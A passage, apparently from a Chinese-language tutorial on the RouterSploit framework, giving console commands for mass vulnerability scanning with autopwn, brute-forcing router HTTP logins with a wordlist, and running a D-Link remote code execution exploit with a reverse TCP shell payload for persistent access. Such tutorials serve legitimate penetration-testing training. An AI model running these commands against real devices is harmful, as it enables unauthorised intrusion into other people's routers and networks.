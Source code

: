 高级玩法

十二、高级用法与技巧
1. 使用 autopwn 扫描器进行大规模评估
autopwn 是 RouterSploit 中最强大的扫描模块之一，它可以自动化地对整个网段进行漏洞扫描。

bash
rsf > use scanners/autopwn
rsf (Autopwn) > show options

# 设置目标网段
rsf (Autopwn) > set target 192.168.1.0/24

# 设置线程数（提高扫描速度）
rsf (Autopwn) > set threads 10

# 执行扫描
rsf (Autopwn) > run
扫描完成后，autopwn 会列出所有发现的存在漏洞的设备，并显示可用的利用模块。

2. 暴力破解凭证
当默认口令无效时，可以使用暴力破解模块：

bash
# 使用 HTTP 基础认证暴力破解
rsf > use creds/http_basic_bruteforce
rsf (HTTP Basic Bruteforce) > set target 192.168.1.1
rsf (HTTP Basic Bruteforce) > set port 80

# 设置用户名和密码字典
rsf (HTTP Basic Bruteforce) > set username admin
rsf (HTTP Basic Bruteforce) > set passwords_file /usr/share/wordlists/rockyou.txt

# 执行破解
rsf (HTTP Basic Bruteforce) > run
3. 自定义 Payload 和反向连接
对于需要建立持久访问的情况：

bash
rsf > use exploits/routers/dlink/dir_8xx_remote_code_execution
rsf (D-Link DIR-8XX RCE) > set target 192.168.1.1
rsf (D-Link DIR-8XX RCE) > set payload reverse_tcp

# 设置监听器信息
rsf (D-Link DIR-8XX RCE) > set lhost 192.168.1.100  # 你的IP
rsf (D-Link DIR-8XX RCE) > set lport 4444
